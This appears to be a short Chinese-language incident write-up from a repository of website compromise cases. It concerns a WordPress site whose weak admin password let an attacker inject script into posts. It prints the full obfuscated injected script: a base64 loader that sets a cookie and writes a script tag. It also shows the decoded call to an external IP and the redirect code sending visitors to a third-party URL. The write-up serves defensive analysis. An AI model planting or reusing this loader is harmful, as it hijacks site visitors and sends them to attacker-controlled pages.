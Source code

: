 # web security 案例

日常收集，工作网站被黑案例。

## XSS 攻击

背景：使用 WordPress 开发手机端，管理人员密码设置过于简单，被黑客在 post 中注入如下脚本，形成跨站脚本攻击：

```javascript
<p><!--codes_iframe--><script type="text/javascript"> function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiUyMCU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOCUzNSUyRSUzMSUzNSUzNiUyRSUzMSUzNyUzNyUyRSUzOCUzNSUyRiUzNSU2MyU3NyUzMiU2NiU2QiUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyMCcpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\/script>')} </script><!--/codes_iframe--></p>
```

该代码段获取了客户cookie信息，然后跳转到第三方的VPN中，收集用户信息。

跨域请求解析后路径：

```javascript
<script src=" http://185.156.177.85/5cw2fk"></script> 
```

解析后脚本请求：

```javascript
function process() {
                window.location = "https://click.unfurlable.com/ljexwvfocb";
            }
            window.onerror = process;
            process();
```

最终访问了熊猫VPN

![rLtAHRmwobQJ7IK](https://i.loli.net/2019/11/18/rLtAHRmwobQJ7IK.png)
